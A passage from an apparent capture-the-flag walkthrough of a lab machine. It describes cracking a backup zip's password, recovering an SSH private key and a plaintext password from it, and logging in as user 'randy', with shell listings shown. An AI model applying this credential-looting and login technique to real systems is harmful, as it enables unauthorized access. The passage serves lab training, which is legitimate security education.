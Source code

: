 In this case, i got the password as `!randybaby` and unzipped the contents. Cating the contents of `my_password.txt`, we get the password which we can use to authenticate with for further enumeration.

```bash
➜  ls -la
total 32
drwxr-xr-x 2 root root 4096 Jan 17 17:05 .
drwxr-xr-x 4 root root 4096 Jan 17 15:01 ..
-rw-r--r-- 1 root root  148 Jul 30 02:11 easysysinfo.c
-rw-r--r-- 1 root root  403 Jan 17 17:05 forjohn
-rw------- 1 root root 2590 Jul 30 02:20 id_rsa
-rw-r--r-- 1 root root  563 Jul 30 02:20 id_rsa.pub
-rw-r--r-- 1 root root   23 Jul 30 02:21 my_password.txt
-rw-r--r-- 1 root root 3285 Jan 17 17:04 user_backup.zip
➜  cat my_password.txt
randylovesgoldfish1998
```

We're in.😎

```bash
➜  ssh randy@192.168.56.151 -i id_rsa
randy@192.168.56.151's password:
Welcome to Ubuntu 21.04 (GNU/Linux 5.11.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

119 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Last login: Fri Jul 30 15:28:02 2021 from 10.0.0.69
randy@corrosion:~$ id
uid=1000(randy) gid=1000(randy) groups=1000(randy),4(adm),24(cdrom),30(dip),46(plugdev),121(lpadmin),133(sambashare)
randy@corrosion:~$ ls -la
total 88
drwxr-x--- 17 randy randy 4096 Jul 30 16:01 .
drwxr-xr-x  3 root  root  4096 Jul 29 17:05 ..
-rw-rw-r--  1 randy randy   68 Jul 30 16:01 .bash_history
-rw-r--r--  1 randy randy  220 Jul 29 17:05 .bash_logout
-rw-r--r--  1 randy randy 3771 Jul 29 17:05 .bashrc
drwxrwxr-x 12 randy randy 4096 Jul 30 15:19 .cache
drwx------ 11 randy randy 4096 Jul 29 19:18 .config
drwxr-xr-x  2 randy randy 4096 Jul 29 17:40 Desktop
drwxr-xr-x  2 randy randy 4096 Jul 29 17:11 Documents
drwxr-xr-x  2 randy randy 4096 Jul 29 17:11 Downloads
drwx------  2 randy randy 4096 Jul 30 15:41 .gnupg
drwxr-xr-x  3 randy randy 4096 Jul 29 17:11 .local
drwx------  5 randy randy 4096 Jul 29 19:15 .mozilla
drwxr-xr-x  2 randy randy 4096 Jul 29 17:11 Music
drwxr-xr-x  2 randy randy 4096 Jul 29 17:11 Pictures
-rw-r--r--  1 randy randy  807 Jul 29 17:05 .profile
drwxr-xr-x  2 randy randy 4096 Jul 29 17:11 Public
-rw-rw-r--  1 randy randy    0 Jul 30 14:48 .selected_editor
drwx------  2 randy randy 4096 Jul 29 17:24 .ssh
-rw-r--r--  1 randy randy    0 Jul 29 17:12 .sudo_as_admin_successful
drwxr-xr-x  2 randy randy 4096 Jul 29 17:11 Templates
drwxrwxr-x  2 randy randy 4096 Jul 30 00:11 tools
```